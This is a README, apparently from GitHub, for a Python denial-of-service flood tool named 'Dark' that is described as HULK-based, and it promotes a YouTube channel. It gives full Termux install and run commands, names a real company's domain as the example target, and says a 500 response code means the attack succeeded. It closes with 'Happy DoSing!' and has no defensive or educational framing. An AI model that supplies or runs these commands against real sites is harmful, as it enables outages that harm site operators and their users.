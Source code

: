## DARK
#### A http cl13nt 0v3rl0ad oythin script to perform DoS Attack.


Subscribe to my YT channel KrakinzLab
Link:- 

This contains a file named hulk.py
Hulk.py is one of the best DDoS tools which is written in python.
Installation commands:-
pkg install python2
git clone "link"
chmod +x hulk.py

Usage:- 
Install termux from Fdroid / Playstore

```sh
apt update && apt upgrade
pkg install python2
git clone https://github.com/krakinz/Dark.git
cd Dark
chmod +x Dark.py
python2 Dark.py "link"

Example:- python2 Dark.py safaricom.com
```
If the result come RESPONSE CODE 500 then your DoS attack is successful.
Handshake!!
But some websites blocks you ip which may also show RESPONSE CODE 500
Happy DoSing !
-----END------

<img href="/darkling.png">
